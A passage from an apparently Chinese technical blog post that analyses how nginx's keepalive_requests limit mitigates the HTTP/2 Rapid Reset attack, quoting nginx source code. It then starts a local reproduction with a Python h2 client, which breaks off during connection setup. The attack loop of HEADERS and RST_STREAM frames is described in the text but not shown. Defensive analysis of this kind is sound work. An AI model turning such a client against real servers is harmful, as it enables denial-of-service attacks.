 而每次收到 HEADERS 帧时，`ngx_http_v2_state_headers`都会判断当前 tcp 连接上的请求数量是否已经达到最大值：

```
static u_char *
ngx_http_v2_state_headers(ngx_http_v2_connection_t *h2c, u_char *pos,
    u_char *end)
{
    ......
    if (clcf-&gt;keepalive_timeout == 0
        // 判断该 TCP 连接上的请求数量是否达到最大值
        // 1.19.7 之前所比较的值是 h2scf-&gt;max_requests
        || h2c-&gt;connection-&gt;requests &gt;= clcf-&gt;keepalive_requests
        || ngx_current_msec - h2c-&gt;connection-&gt;start_time
           &gt; clcf-&gt;keepalive_time)
    {
        h2c-&gt;goaway = 1;

        if (ngx_http_v2_send_goaway(h2c, NGX_HTTP_V2_NO_ERROR) == NGX_ERROR) {
            return ngx_http_v2_connection_error(h2c,
                                                NGX_HTTP_V2_INTERNAL_ERROR);
        }
    }
    ......
}

```

由于 keepalive_requests 配置的默认值为 1000，所以即使利用`HEADERS`、`RST_STREAM`帧序列来构造快速重置攻击，Nginx 也能够限制一个 TCP 连接上的请求总数量为 1000 个。如果攻击者想持续利用该漏洞，就不得不新建新的 TCP 连接，此时可以继续结合标准的 L4 监控告警工具来进一步加强防护。

### 3. 尝试复现

接下来我们尝试复现该问题，确认一下上述逻辑。

首先准备一个如下 python http/2 client，其就是不断发送 HEADERS 帧和 RST_STREAM 帧序列：

```
#!/usr/bin/env python3

import socket
import ssl
import certifi

import h2.connection
import h2.events


SERVER_NAME = '127.0.0.1'
SERVER_PORT = 443

# generic socket and ssl configuration
socket.setdefaulttimeout(15)
ctx = ssl.create_default_context(cafile=certifi.where())
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
ctx.set_alpn_protocols(['h2'])

# open a socket to the server and initiate TLS/SSL
s = socket.create_connection((SERVER_NAME, SERVER_PORT))
s = ctx.wrap_socket(s, server_hostname=SERVER_NAME)

c = h2.connection.H2Connection()
c.initiate_connection()
s.sendall(c.data_to_send())

headers = [
```